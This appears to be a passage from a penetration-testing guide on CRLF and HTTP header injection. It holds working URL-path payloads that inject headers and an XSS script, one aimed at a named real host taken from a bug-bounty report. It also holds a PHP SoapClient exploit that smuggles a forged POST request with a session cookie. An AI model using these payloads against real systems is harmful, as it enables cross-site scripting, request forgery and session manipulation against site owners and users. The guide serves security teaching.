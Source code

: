 #### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server (example from [here](https://hackerone.com/reports/192667)):

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

Check more examples in:

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP Header Injection

HTTP Header Injection, often exploited through CRLF (Carriage Return and Line Feed) injection, allows attackers to insert HTTP headers. This can undermine security mechanisms such as XSS (Cross-Site Scripting) filters or the SOP (Same-Origin Policy), potentially leading to unauthorized access to sensitive data, such as CSRF tokens, or the manipulation of user sessions through cookie planting.

#### Exploiting CORS via HTTP Header Injection

An attacker can inject HTTP headers to enable CORS (Cross-Origin Resource Sharing), bypassing the restrictions imposed by SOP. This breach allows scripts from malicious origins to interact with resources from a different origin, potentially accessing protected data.

#### SSRF and HTTP Request Injection via CRLF

CRLF injection can be utilized to craft and inject an entirely new HTTP request. A notable example of this is the vulnerability in PHP's `SoapClient` class, specifically within the `user_agent` parameter. By manipulating this parameter, an attacker can insert additional headers and body content, or even inject a new HTTP request entirely. Below is a PHP example demonstrating this exploitation:

```php
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```
